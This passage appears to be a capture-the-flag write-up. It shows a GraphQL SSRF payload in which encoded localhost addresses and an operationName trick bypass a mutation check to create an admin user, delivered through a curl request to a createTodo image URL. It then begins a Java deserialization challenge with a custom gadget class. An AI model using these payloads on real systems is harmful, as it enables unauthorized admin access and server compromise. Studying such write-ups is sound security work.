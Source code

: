 ``` python
            return jsonify({'errors': [{'message': "malformed request"}]}), 405

```

this can easily be bypassed by using graphql's operation name field.

we end up then with this paylaod :

http://2130706433:5000/graphql?query=query%20a%20%7B%20me%20%7B%20id%20%7D%20%7D%20mutation%20b%20%7B%20createAdmin(username%3A%20%22theadmin1%22%2C%20password%3A%20%22PASSWORD%22%2C%20email%3A%20%22admin%40fli9.com%22)%20%7B%20id%20%7D%20%7D&operationName=b

the decoded query is :

``` graphql
query a { me { id } } 
mutation b { 
    createAdmin(username: "theadmin1", password: "PASSWORD", email: "admin@fli9.com") {
         id 
         } 
    }

```
by setting operationName=b we can bypass the check that blocks mutations from get requests.
create an admin user by making a request to createTodo mutation.

``` bash
curl  "http://172.189.56.236:1005/graphql" -H "Authorization: Bearer [TOKEN]"   -H "Content-Type: application/json"  -d '{"query": "mutation { createTodo(title:\"x\", content:\"x\", imageUrl:\"http://0x7F000001:5000/graphql?query=query%20a%20%7B%20me%20%7B%20id%20%7D%20%7D%20mutation%20b%20%7B%20createAdmin(username%3A%20%22theadmin1%22%2C%20password%3A%20%22PASSWORD%22%2C%20email%3A%20%22admin%40fli9.com%22)%20%7B%20id%20%7D%20%7D&operationName=b") { id } }"  

```

# faceboook

## overview
this is a basic insecure deserialization challenge.
but with a custom gadget it can be exploited to get a reverse shell.

## exploit
``` java
the custom gadget is the loghelper class .
package com.example.ctfapi.service;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serial;
import java.io.Serializable;

public class LogHelper extends LogService implements Serializable {
    @Serial
    private static final long serialVersionUID = 1L;
    public final String message;
    public LogHelper(String message) {
        this.message = message;
    }
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject();
        log(this.message);
    }

}
```